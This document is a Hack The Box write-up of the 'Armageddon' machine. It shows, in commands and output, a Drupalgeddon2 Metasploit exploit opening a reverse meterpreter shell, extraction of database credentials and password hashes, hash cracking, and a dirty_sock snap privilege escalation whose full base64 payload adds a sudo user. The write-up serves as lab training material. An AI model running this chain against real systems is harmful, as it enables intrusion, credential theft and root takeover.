



What we learn from this machine :
Concepts Learnt :

* Enumeration
* Drupal exploit (metasploit)
* Snap privilege escalation
* python2

Let's do this then. Always start with enumerations. 
```
# Nmap 7.91 scan initiated Wed Jun  9 08:29:39 2021 as: nmap -sC -sV -A -oN scans/nmap-output 10.10.10.233
Nmap scan report for 10.10.10.233
Host is up (0.15s latency).
Not shown: 997 closed ports
PORT     STATE    SERVICE   VERSION
22/tcp   open     ssh       OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 82:c6:bb:c7:02:6a:93:bb:7c:cb:dd:9c:30:93:79:34 (RSA)
|   256 3a:ca:95:30:f3:12:d7:ca:45:05:bc:c7:f1:16:bb:fc (ECDSA)
|_  256 7a:d4:b3:68:79:cf:62:8a:7d:5a:61:e7:06:0f:5f:33 (ED25519)
80/tcp   open     http      Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Welcome to  Armageddon |  Armageddon
5054/tcp filtered rlm-admin

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jun  9 08:30:12 2021 -- 1 IP address (1 host up) scanned in 33.47 seconds
```
Looks like we got port 22 and port 80 open. webpage is **Drupal 7** looks like interesting. Anyway take a look at the web page what we found in our scan.



A simple web site with user logins. I tried some default password like admin:admin nothing work :/ . But we know this is **Drupal 7** let's search for the exploits on that version. After sometime I found this page.

https://www.rapid7.com/db/modules/exploit/unix/webapp/drupal_drupalgeddon2/



Let's see that in action.

```bash
┌─[visith@parrot]─[~/CTF/htb/armageddon]
└──╼ $msfconsole
+ -- --=[ metasploit v6.0.44-dev                          ]
+ -- --=[ 2131 exploits - 1139 auxiliary - 363 post       ]
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 8 evasion                                       ]

Metasploit tip: Enable HTTP request and response logging 
with set HttpTrace true

msf6 > use exploit/unix/webapp/drupal_drupalgeddon2
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > show options 

Module options (exploit/unix/webapp/drupal_drupalgeddon2):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   DUMP_OUTPUT  false            no        Dump payload command output
   PHP_FUNC     passthru         yes       PHP function to execute
   Proxies                       no        A proxy chain of format type:host:port[,type:host
                                           :port][...]
   RHOSTS                        yes       The target host(s), range CIDR identifier, or hos
                                           ts file with syntax 'file:<path>'
   RPORT        80               yes       The target port (TCP)
   SSL          false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI    /                yes       Path to Drupal install
   VHOST                         no        HTTP server virtual host


msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set LHOST 10.10.15.0
LHOST => 10.10.15.0
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set RHOST 10.10.10.233
RHOST => 10.10.10.233
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > run

[*] Started reverse TCP handler on 10.10.15.0:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable.
[*] Sending stage (39282 bytes) to 10.10.10.233
[*] Meterpreter session 1 opened (10.10.15.0:4444 -> 10.10.10.233:40372) at 2021-06-09 08:40:04 +0530

meterpreter > shell
Process 3669 created.
Channel 0 created.
whoami
apache
```
We got the shell. Let's poke around little bit. After some time I found this. In this directory **/sites/default/settings.php** . This file give me this.

```bash
Database configuration format:
 * @code
 *   $databases['default']['default'] = array(
 *     'driver' => 'mysql',
 *     'database' => 'databasename',
 *     'username' => 'username',
 *     'password' => 'password',
 *     'host' => 'localhost',
 *     'prefix' => '',
 *   );
 *   $databases['default']['default'] = array(
 *     'driver' => 'pgsql',
 *     'database' => 'databasename',
 *     'username' => 'username',
 *     'password' => 'password',
 *     'host' => 'localhost',
 *     'prefix' => '',
 *   );
 *   $databases['default']['default'] = array(
 *     'driver' => 'sqlite',
 *     'database' => '/path/to/databasefilename',
 *   );
 * @endcode
 */
$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupal',
      'username' => 'drupaluser',
      'password' => 'CQHEy@9M*m23gBVj',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
```
We possibly get credentials for mysql and the database name. Let's go log into the mysql and let's see what they give us.

I didn't take a any notes on that process but here is the command I use to get passwd hash.
```bash
mysql -u drupaluser -p CQHEy@9M*m23gBVj  -D drupal -e 'select name,pass from users;'
```
After We get that hash we can crack the hash with **johntheripper** . Here my **command** to Johntheripper.
```bash
john ~/path/hash -w /usr/share/wordlists/rockyou.txt
```
We got our credentials. 
* Username : brucetherealadmin
* Password : booboo

Let's login to the ssh with our creds.
```bash
┌─[✗]─[visith@parrot]─[/etc/mysql]
└──╼ $ssh brucetherealadmin@10.10.10.233
The authenticity of host '10.10.10.233 (10.10.10.233)' can't be established.
ECDSA key fingerprint is SHA256:bC1R/FE5sI72ndY92lFyZQt4g1VJoSNKOeAkuuRr4Ao.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.233' (ECDSA) to the list of known hosts.
brucetherealadmin@10.10.10.233's password: 
Last login: Wed Jun  9 03:14:35 2021 from 10.10.14.255
[brucetherealadmin@armageddon ~]$ ls
user.txt
[brucetherealadmin@armageddon ~]$ cat user.txt
*****************************
```
Let's get our root flag. Before we running any scripts I liked to run. **sudo -l**. Here what I found. 
```bash
[brucetherealadmin@armageddon ~]$ sudo -l
Matching Defaults entries for brucetherealadmin on armageddon:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset,
    env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2
    QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION
    LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER
    LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User brucetherealadmin may run the following commands on armageddon:
    (root) NOPASSWD: /usr/bin/snap install *
[brucetherealadmin@armageddon ~]$ 
```
The user can run snap install without password. After sometime searching about it on google. I found the *dirty_sock*.

https://github.com/initstring/dirty_sock

However the dirty sock requires python 3 and while checking for the python version on the box we get the python version as 2.7.5

We need to add dirty_sock code manually. This is the my coustomize code. (/Scans and other/root-snap.py - Go to my github repo for full code)
```bash
[brucetherealadmin@armageddon ~]$ python2 -c 'print "aHNxcwcAAAAQIVZcAAACAAAAAAAEABEA0AIBAAQAAADgAAAAAAAAAI4DAAAAAAAAhgMAAAAAAAD//////////xICAAAAAAAAsAIAAAAAAAA+AwAAAAAAAHgDAAAAAAAAIyEvYmluL2Jhc2gKCnVzZXJhZGQgZGlydHlfc29jayAtbSAtcCAnJDYkc1daY1cxdDI1cGZVZEJ1WCRqV2pFWlFGMnpGU2Z5R3k5TGJ2RzN2Rnp6SFJqWGZCWUswU09HZk1EMXNMeWFTOTdBd25KVXM3Z0RDWS5mZzE5TnMzSndSZERoT2NFbURwQlZsRjltLicgLXMgL2Jpbi9iYXNoCnVzZXJtb2QgLWFHIHN1ZG8gZGlydHlfc29jawplY2hvICJkaXJ0eV9zb2NrICAgIEFMTD0oQUxMOkFMTCkgQUxMIiA+PiAvZXRjL3N1ZG9lcnMKbmFtZTogZGlydHktc29jawp2ZXJzaW9uOiAnMC4xJwpzdW1tYXJ5OiBFbXB0eSBzbmFwLCB1c2VkIGZvciBleHBsb2l0CmRlc2NyaXB0aW9uOiAnU2VlIGh0dHBzOi8vZ2l0aHViLmNvbS9pbml0c3RyaW5nL2RpcnR5X3NvY2sKCiAgJwphcmNoaXRlY3R1cmVzOgotIGFtZDY0CmNvbmZpbmVtZW50OiBkZXZtb2RlCmdyYWRlOiBkZXZlbAqcAP03elhaAAABaSLeNgPAZIACIQECAAAAADopyIngAP8AXF0ABIAerFoU8J/e5+qumvhFkbY5Pr4ba1mk4+lgZFHaUvoa1O5k6KmvF3FqfKH62aluxOVeNQ7Z00lddaUjrkpxz0ET/XVLOZmGVXmojv/IHq2fZcc/VQCcVtsco6gAw76gWAABeIACAAAAaCPLPz4wDYsCAAAAAAFZWowA/Td6WFoAAAFpIt42A8BTnQEhAQIAAAAAvhLn0OAAnABLXQAAan87Em73BrVRGmIBM8q2XR9JLRjNEyz6lNkCjEjKrZZFBdDja9cJJGw1F0vtkyjZecTuAfMJX82806GjaLtEv4x1DNYWJ5N5RQAAAEDvGfMAAWedAQAAAPtvjkc+MA2LAgAAAAABWVo4gIAAAAAAAAAAPAAAAAAAAAAAAAAAAAAAAFwAAAAAAAAAwAAAAAAAAACgAAAAAAAAAOAAAAAAAAAAPgMAAAAAAAAEgAAAAACAAw" + "A"*4256 + "=="' | base64 -d > root.snap
[brucetherealadmin@armageddon ~]$ ls
root.snap  user.txt
[brucetherealadmin@armageddon ~]$ cat root.snap
hsqs!V\�������������>x#!/bin/bash

useradd dirty_sock -m -p '$6$sWZcW1t25pfUdBuX$jWjEZQF2zFSfyGy9LbvG3vFzzHRjXfBYK0SOGfMD1sLyaS97AwnJUs7gDCY.fg19Ns3JwRdDhOcEmDpBVlF9m.' -s /bin/bash
usermod -aG sudo dirty_sock
echo "dirty_sock    ALL=(ALL:ALL) ALL" >> /etc/sudoers
name: dirty-sock
version: '0.1'
summary: Empty snap, used for exploit
description: 'See https://github.com/initstring/dirty_sock
```
**If we take a look into that root.snap we can what is acutually happen when we install this snap. It making a user call dirty_sock and put it on sudoers file.**

Let's install our snap.

```bash
[brucetherealadmin@armageddon ~]$ sudo /usr/bin/snap install --devmode root.snap
dirty-sock 0.1 installed
```
Here is our dirty_sock user credentials. 
* Username - dirty_sock
* Password - dirty_sock

```bash
[brucetherealadmin@armageddon ~]$ su dirty_sock
Password: 
[dirty_sock@armageddon brucetherealadmin]$ ls
ls: cannot open directory .: Permission denied
[dirty_sock@armageddon brucetherealadmin]$ whoami
dirty_sock
[dirty_sock@armageddon brucetherealadmin]$ sudo -i

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for dirty_sock: 
[root@armageddon ~]# ls
anaconda-ks.cfg  cleanup.sh  passwd  reset.sh  root.txt  snap
[root@armageddon ~]# cat root.txt
******************************
[root@armageddon ~]# 
```
We pwn the machine !! 
Thx for reading

